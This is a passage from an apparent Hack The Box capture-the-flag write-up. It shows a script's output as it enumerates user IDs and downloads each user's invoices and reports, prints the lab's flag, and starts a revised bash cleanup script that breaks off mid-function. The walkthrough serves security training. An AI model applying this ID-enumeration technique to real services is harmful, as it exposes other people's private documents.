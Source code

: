 ```
Downloading flag_11dfa168ac8eb2958e38425728623c98.txt...
=== FLAG CHECK ===
HTB{4ll_f1l35_4r3_m1n3}
==================
Testing UID 16...
[+] Found documents for UID 16:
/documents/Invoice_16_12_2021.pdf
/documents/Report_16_01_2021.pdf
Downloading Invoice_16_12_2021.pdf...
Downloading Report_16_01_2021.pdf...
Testing UID 17...
[+] Found documents for UID 17:
/documents/Invoice_17_11_2021.pdf
/documents/Report_17_06_2021.pdf
Downloading Invoice_17_11_2021.pdf...
Downloading Report_17_06_2021.pdf...
Testing UID 18...
[+] Found documents for UID 18:
/documents/Invoice_18_12_2020.pdf
/documents/Report_18_01_2020.pdf
Downloading Invoice_18_12_2020.pdf...
Downloading Report_18_01_2020.pdf...
Testing UID 19...
[+] Found documents for UID 19:
/documents/Invoice_19_06_2020.pdf
/documents/Report_19_08_2020.pdf
Downloading Invoice_19_06_2020.pdf...
Downloading Report_19_08_2020.pdf...
Testing UID 20...
[+] Found documents for UID 20:
/documents/Invoice_20_06_2020.pdf
/documents/Report_20_01_2021.pdf
Downloading Invoice_20_06_2020.pdf...
Downloading Report_20_01_2021.pdf...
Operation complete. Check results.txt for details
```

We got our flag:

```
HTB{4ll_f1l35_4r3_m1n3}
```


But this is a lot of output and it can be tedious, we can modify the script a bit more for it to only show us the flag and delete all other files from our system after it's ended:

```bash
#!/bin/bash

url="http://94.237.59.180:34953"
temp_dir=".temp_docs"
flag_file=""
declare -a downloaded_files

# Create temporary directory
mkdir -p "$temp_dir"
cd "$temp_dir" || exit

cleanup() {
    echo "Cleaning up..."
    # Delete all files except the flag-containing file
    if [ -n "$flag_file" ]; then
        find . -type f ! -name "$flag_file" -delete
        echo "Kept flag file: $flag_file"
    else
```